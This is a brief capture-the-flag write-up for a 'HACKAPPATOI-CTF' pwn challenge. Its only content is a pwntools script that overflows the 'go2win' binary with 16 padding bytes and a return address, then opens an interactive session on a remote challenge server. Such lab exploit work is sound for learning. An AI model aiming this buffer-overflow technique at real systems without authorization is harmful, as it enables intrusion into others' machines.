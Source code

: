 # HACKAPPATOI-CTF

## Pwn and Rev
===============

## PwN 1 
The first chall a buffer overflow, attachments are one binary file. `go2win`
```
import shutup; shutup.please()
from pwn import *

elf = context.binary = ELF('./go2win')
io = elf.process()

io = remote('92.246.89.201', 10003)

offset = 16

payload = b''
payload += b'A' * offset 
payload += p64(0x47f7a0)

io.sendline(payload)
io.interactive()
```



